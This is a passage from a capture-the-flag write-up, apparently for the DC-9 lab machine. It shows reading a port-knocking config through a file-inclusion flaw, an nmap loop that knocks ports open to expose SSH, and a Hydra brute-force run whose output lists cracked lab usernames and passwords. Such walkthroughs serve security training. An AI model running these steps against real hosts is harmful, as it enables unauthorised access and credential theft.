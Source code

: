 One intersting file is "/etc/knockd.conf " , a knock deamon config file , Port knocking is a way of being able to hit a specific sequence of ports , and once the knockd detects that this machine has received a SYN on those ports it will open up a specified service or perform some operation , so in our case the config is :

Head over to burp suite we can see the config file : 

![LFI](/assets/images/dc9/knock.png)

it's configured to open ssh service after hitting this sequence of ports:
```bash
[openSSH]
	sequence    = 7469,8475,9842
```     
So we will open ssh port using this script knockin.sh or we can use netcat command  : 

```bash
for x in 7469 8475 9842 ; do
nmap -Pn --host-timeout 201 --max-retries 0 -p $x 192.168.1.22;
done
```

We verify that ssh is now open :
```bash
nmap -p22 192.168.1.22         
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-21 23:04 +01
Nmap scan report for 192.168.1.22 (192.168.1.22)
Host is up (0.0011s latency).

PORT   STATE SERVICE
22/tcp open  ssh

```
## Gaining a foothold - Shell as janitor

We have ssh open and a list of users and passwords so we gonna use hydra :

```bash 
hydra -L users.txt -P passwords.txt ssh://192.168.1.22

[22][ssh] host: 192.168.1.22   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.1.22   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.1.22   login: janitor   password: Ilovepeepee
1 of 1 target successfully completed, 3 valid passwords found

```
